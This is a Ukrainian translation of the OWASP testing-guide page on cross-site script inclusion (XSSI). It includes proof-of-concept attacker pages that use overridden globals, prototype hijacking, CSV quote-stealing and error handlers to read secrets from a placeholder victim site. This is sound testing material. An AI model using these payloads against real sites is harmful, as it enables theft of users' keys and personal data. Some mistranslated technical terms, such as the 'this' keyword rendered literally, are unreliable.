 ## Тестування на Включення Міжсайтового Сценарію
| ID |
|:-:|
| WSTG-CLNT-13 |

### Короткий опис
Вразливість включення міжсайтового сценарію (XSSI) спричиняє витік чутливих даних між доменами або джерелами, які мають різне походження. Серед таких даних можуть бути інформація, пов'язана з автентифікацією (наприклад, статус автентифікації, файли cookie, токени автентифікації, ідентифікатори сесій), а також особисті або чутливі особисті дані користувачів, включаючи електронні адреси, телефонні номери, дані кредитних карток, номери соціального страхування та інше. XSSI — це атака на клієнтській стороні, схожа на атаку підробки міжсайтового запиту (CSRF), але відрізняється тим, що використовує JavaScript для витоку чутливих даних із автентифікованих сесій, тоді як CSRF використовує контекст автентифікованого користувача для виконання дій, що змінюють стан на сторінці жертви, таких як переказ коштів або зміна пароля.

Стандартно веб-сайти можуть доступатися до даних лише з тих джерел, до яких вони належать, що є основним принципом безпеки, регульованим політикою однакового походження, згідно з [RFC 6454](https://datatracker.ietf.org/doc/html/rfc6454). Однак політика однакового походження не застосовується до тегів <script>, що дозволяє веб-сайтам використовувати ресурси сторонніх постачальників, зокрема для аналітики трафіку чи реклами. Таке виключення може спричинити витік чутливих даних, коли ресурси завантажуються з відмінного походження і виконуються в контексті включеного веб-сайту або браузера. Це досягається зазвичай за допомогою JavaScript, причому джерело скрипта може не обмежуватися файлами JavaScript з типом text/javascript або розширенням .js.

Раніше були виявлені вразливості в старих версіях браузерів, як-то IE9/10, що дозволяли витік даних через помилки JavaScript під час їх виконання, однак ці вразливості вже усунуті виробниками і зараз вважаються застарілими. Задавши атрибут charset у тегу <script>, атакуючий або тестер може встановити кодування UTF-16, що в деяких випадках дозволяє витік даних в інших форматах, таких як JSON. Додаткову інформацію про такі атаки можна знайти в дослідженні про [атаки на основі ідентифікаторів XSSI](https://www.mbsd.jp/Whitepaper/xssi.pdf).

### Цілі тестування

- Знайти конфіденційні дані в системі.
- Оцінити витік конфіденційних даних за допомогою різних методів.

### Як протестувати
#### Збір Даних З Використанням Аутентифікованих та Неаутентифікованих Сесій Користувачів

Визначте, які кінцеві точки відповідають за відправку чутливих даних, які параметри потрібні, та ідентифікуйте всі відповідні динамічно та статично генеровані відповіді JavaScript з використанням сеансів аутентифікації користувачів. Зверніть особливу увагу на чутливі дані, які відправляються за допомогою [JSONP](https://en.wikipedia.org/wiki/JSONP). Щоб знайти динамічно генеровані відповіді JavaScript, створюйте аутентифіковані та неаутентифіковані запити, а потім порівнюйте їх. Якщо вони відрізняються, це означає, що відповідь є динамічною, в іншому випадку вона є статичною. Для спрощення цього завдання можна використовувати інструмент, такий як [плагін Burp проксі Вейта Гайлперіна](https://github.com/luh2/DetectDynamicJS). Переконайтеся, що перевіряєте інші типи файлів, крім JavaScript; XSSI не обмежується лише файлами JavaScript.

#### Визначення Можливості Витікання Чутливих Даних За Допомогою JavaScript
Тестери повинні аналізувати код на предмет можливостей витікання даних через уразливості XSSI за допомогою наступних методів:
 
 1. Глобальні змінні
 2. Глобальні параметри функцій
 3. CSV (Значення, Розділені Комами) із крадіжкою цитат
 4. Помилки в роботі JavaScript
 5. Ланцюг прототипу за допомогою ключового слова "це"

#### 1. Витікання Чутливих Даних За Допомогою Глобальних Змінних
API-ключ зберігається в файлі JavaScript за адресою `https://victim.com/internal/api.js` на веб-сайті потерпілого, `victim.com`, який доступний лише аутентифікованим користувачам. Атакуючий налаштовує веб-сайт, `attackingwebsite.com`, та використовує тег <script> для посилання на файл JavaScript.

Ось вміст файлу `https://victim.com/internal/api.js`:
```
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```
Місце атаки, `attackingwebsite.com`, має `index.html`з таким кодом:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```
У цьому прикладі жертва автентифікується на `victim.com`. Зловмисник спокушає жертву перейти на `attackingwebsite.com` за допомогою соціальної інженерії, фішингових листів тощо. Браузер жертви тоді завантажує `api.js`, що призводить до витоку чутливих даних через глобальну змінну JavaScript і їх відображення за допомогою `innerHTML`.

#### 2 Витік Чутливих Даних через Глобальні Параметри Функцій
У цьому прикладі подібному до попереднього, але в даному випадку `attackingwebsite.com` використовує глобальну функцію JavaScript для видобутку чутливих даних, перезаписуючи глобальну функцію JavaScript жертви.

Ось вміст `https://victim.com/internal/api.js`:
```
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```
Місце атаки, `attackingwebsite.com`, має `index.html`з таким кодом:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```
Існують інші вразливості XSSI, які можуть призвести до витоку конфіденційних даних через ланцюжки прототипів JavaScript або глобальні виклики функцій. Щоб дізнатися більше про ці атаки, перегляньте [Несподівані Небезпеки Динамічного JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf).

#### 3. Витік Конфіденційних Даних через CSV із Крадіжкою Котирувань
Для витоку даних зловмисник/тестувальник повинен мати можливість вставити код JavaScript у дані CSV. Наведений нижче приклад коду є уривком із документації про [атаки XSSI на основі ідентифікатора](https://www.mbsd.jp/Whitepaper/xssi.pdf) Такеші Теради.
```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```
У цьому прикладі за допомогою `___` стовпці як точки впровадження та вставлення рядків JavaScript на їх місце має наступний результат.
```
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```
[Джеремія Гроссман писав про подібну вразливість у Gmail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html) у 2006 році, яка дозволяла видобувати контакти користувачів у JSON. У цьому випадку дані були отримані з Gmail і проаналізовані движком JavaScript браузера за допомогою конструктора Масив без посилання, щоб отримати витік даних. Зловмисник може отримати доступ до цього Масиву з конфіденційними даними, визначивши та перезаписавши внутрішній конструктор Масиву таким чином:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

#### 4. Витік Конфіденційних Даних через Помилки Виконання JavaScript
Браузери зазвичай представляють стандартизовані [повідомлення про помилки JavaScript](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Errors). Однак у випадку IE9/10 повідомлення про помилки виконання надавали додаткові відомості, які могли бути використані для витоку даних. Наприклад, веб-сайт `victim.com` надає такий вміст за URI `http://victim.com/service/csvendpoint` для автентифікованих користувачів:
```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```
Цю вразливість можна використати за допомогою:
```
<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="http://victim.com/service/csvendpoint"></script>
```
Коли веб-переглядач намагається відтворити вміст CSV як JavaScript, це не вдається та відбувається витік конфіденційних даних:
![XSSI1](https://github.com/oleksandrblazhko/ai-191-buriak/assets/145441728/065c7f50-b479-4412-80c5-7f12e1da4d99)

Рисунок 4.11.13-1: Повідомлення про помилку виконання JavaScript

#### 5. Витік Конфіденційних Даних через З’єднання Прототипів 'це'
У JavaScript `це` ключове слово яке має динамічну область видимості. Це означає, що якщо функція викликається до об’єкта, 'це' вона вказуватиме на цей об’єкт, навіть якщо викликана функція може не належати самому об’єкту. Така поведінка може бути використана для витоку даних. У наступному прикладі з [демонстраційної сторінки Себастьяна Лейке](http://sebastian-lekies.de/leak/) конфіденційні дані зберігаються в масиві. Зловмисник може перевизначити `Array.prototype.forEach` за допомогою функції, керованої зловмисником. Якщо якийсь код викликає `forEach` функцію в екземплярі масиву, який містить конфіденційні значення, буде викликана функція, керована зловмисником, із `це` вказівкою на об’єкт, який містить конфіденційні дані.

Ось уривок файлу JavaScript, який містить конфіденційні дані `javascript.js`:
```
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```
Конфіденційні дані можуть витікати за допомогою такого коду JavaScript:
```
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
